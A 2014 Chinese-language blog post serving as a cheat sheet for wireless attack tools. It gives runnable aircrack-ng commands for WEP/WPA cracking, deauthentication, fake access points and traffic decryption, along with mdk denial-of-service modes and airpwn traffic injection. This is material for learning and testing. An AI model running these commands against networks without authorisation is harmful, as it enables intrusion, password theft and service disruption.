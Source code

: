 ```yaml
---
author: sn0rt
comments: true
date: 2014-07-12
layout: post
title: wireless tools
tag: security
---
```


## 0x00 net-wireless/aircrack-ng

  * airbase-ng: 中间人攻击，伪造 ap 并且将无线的流量转发到有线网络
  * aircrack-ng: 主要用于 wep 以及 wpa-psk 的恢复，依赖于 dump 的数据包，此工具就可以自动测试是否可以破解
  * airdecap-ng: 用来解开加密状态的数据包
  * airdecloak-ng: 用于分析无线数据报文时过滤出指定无线网络数据	
  * airdriver-ng: 用户查看工具包支持的芯片
  * airdrop-ng: 基于策略的无线 Deauth 的工具
  * aireplay-ng: 在进行 wep 和 wap-psk 的密码恢复时候，可以根据需要创建特殊的无线数据包报文	
  * airgraph-ng	
  * airmon-ng: 网卡监控模式
  * airodump-ng: 抓取空中传播的数据包	
  * airolib-ng: 进行 wpa 彩虹表攻击时使用，用于建立特定的数据库文件	
  * airserv-ng: 可以将无线网卡连接到特定端口，为攻击时灵活调用准备	
  * airtun-ng:
  * besside-ng
  * easside-ng: 用户 wep 的自动破解
  * packetforge-ng: 主要用于构造特殊的数据包，用于无客户端的破解
  * tkiptun-ng: 主要针对 wpa tkip 中启用 qos 的网络的注入
  * wesside-ng
  
文档链接 [^wiki]
	
## 0x01 start interface monitor mode

参数说明：

```shell
root@kail:~/wireless# airmon-ng start waln0
```

## 0x02 capture the wireless frames

参数说明：-w 后面是写入文件，--ivs 酌情使用，-c 后面是信道

```shell
root@kali:~/wireless# airodump-ng -w hg -c 6 mon0
```
	
## 0x03 generate request

wep 的 Request 注入攻击加快有效的数据包生成, 参数说明：
-3 (--arpreplay) 就是攻击编号，-b 后面是 ap 的 MAC，-h 后面是 Client 的 MAC

```shell
root@kali:~/wireless# aireplay-ng -3 -b 9C:21:6A:7E:2C:EC -h 64:5A:04:33:75:18 mon0
```

wap 的 Deauth 攻击获取 wpa 的握手报文：
参数说明：-0 (--deauth) 就是攻击编号, 后面是数据包数量，-a 后面是 ap 的 MAC，-c 后面是 Client 的 MAC
    
```shell
root@kali:~/wireless# aireplay-ng -0 1 -a 9C:21:6A:7E:2C:EC -c 64:5A:04:33:75:18 mon0
```

## 0x04 crack the password

web 的破解, 后面是.cap 或者 ivs 文件

```shell
root@kali:~/wireless# aircrack-ng hg-01.cap
```

对于 wpa 的破解,-w 后面是字典文件

```shell
root@kali:~/wireless# aircrack-ng -w /usr/share/dictionary/words hg-01.cap
```
	
### 0x05 aux tools

.cap 提取.ivs 文件：

```shell
root@kali:~/wireless# ivstools --convert hg-05.cap hg-05.ivs
```

把.ivs 文件合成一个：

```shell
root@kali:~/wireless# ivstools  --merge hg-01.ivs hg-02.ivs hg-05.ivs hg.ivs
```
    
    
解密无线数据帧，参数说明：-l 不移除 802.11 头部

```shell
root@kali:~/wireless# airdecap-ng -l -e ESSID -p password hg-01.cap
```

热点伪造

```shell
root@kali:~/wireless# airbase-ng -c 6 -A -Z 2 mon0
```
    
无线跳板的工具

```shell
#  airserv-ng    
Airserv-ng 1.2 beta3 - (C) 2007, 2008, 2009 Andrea Bittau
http://www.aircrack-ng.org

Usage: airserv-ng <options>

Options:

	 -h			: This help screen
	 -p	 <port> : TCP port to listen on (default:666)
	 -d <iface> : Wifi interface to use
	 -c	 <chan> : Channel to use
	 -v <level> : Debug level (1 to 3; default: 1)
```
           
基于策略的无线 Deauth，下面策略的语法

```shell
#deny rules
d/0a:00:27:00:00:03|dc:0e:a1:f4:3f:01
Deny	AP				Client
#------------------
a/any|any

# wireless airdrop-ng -i mon0 -t hg-01.csv -r rule
```

对抓取的数据包内容进行过滤（其实可以在 dump 时候用参数指定）

```shell
# wireless  airdecloak-ng --bssid 0a:00:27:00:00:03 --filters signal -i hg-01.cap
```

wps 扫描工具 [这里](http://www.sourcesec.com/Lab/wps_tools.tar.gz) 下载,wpscan.py(扫描开启的无线路由器),wpspy.py(检测 wps 的状态).
fix: 如果运行出现：Caught exception sniffing packets: global name 'sniff' is not defined 解决方案，修改一下 python 构造包的倒入，我下面的方法是简化的，但是意思一样

```python
#!/usr/bin/env python

from sys import argv, stderr, exit
from getopt import GetoptError, getopt as GetOpt
from scapy.all import *
```

无线 dos 工具:mdk

```shell
b	- Beacon Flood Mode
	  Sends beacon frames to show fake APs at clients.
	  This can sometimes crash network scanners and even drivers!
a	- Authentication DoS mode
	  Sends authentication frames to all APs found in range.
	  Too much clients freeze or reset some APs.
p	- Basic probing and ESSID Bruteforce mode
	  Probes AP and check for answer, useful for checking if SSID has
	  been correctly decloaked or if AP is in your adaptors sending range
	  SSID Bruteforcing is also possible with this test mode.
d	- Deauthentication / Disassociation Amok Mode
	  Kicks everybody found from AP
m	- Michael shutdown exploitation (TKIP)
	  Cancels all traffic continuously
x	- 802.1X tests
w	- WIDS/WIPS Confusion
	  Confuse/Abuse Intrusion Detection and Prevention Systems
f	- MAC filter bruteforce mode
	  This test uses a list of known client MAC Adresses and tries to
	  authenticate them to the given AP while dynamically changing
	  its response timeout for best performance. It currently works only
	  on APs who deny an open authentication request properly
g	- WPA Downgrade test
	  deauthenticates Stations and APs sending WPA encrypted packets.
	  With this test you can check if the sysadmin will try setting his
	  network to WEP or disable encryption.
```

无线欺骗 net-wireless/airpwn, 通过无线数据包匹配的地方修改替换掉，并且伪装为 AP 发送数据

```shell
# cat /usr/share/airpwn/conf/js_html 
begin js_html
match ^(GET|POST)
ignore ^GET [^ ?]+\.(jpg|jpeg|gif|png|tif|tiff)
response /usr/share/airpwn/content/js_html
```

语法类似

```shell
# airpwn -c /usr/share/airpwn/conf/greet_html -i mon0 -d mac80211 -vvv -F
```

针对 open 的，-k 参数后面可以加 wep 的密码，wap 没有看到参数.

[^wiki]: [wiki](https://www.aircrack-ng.org/doku.php)
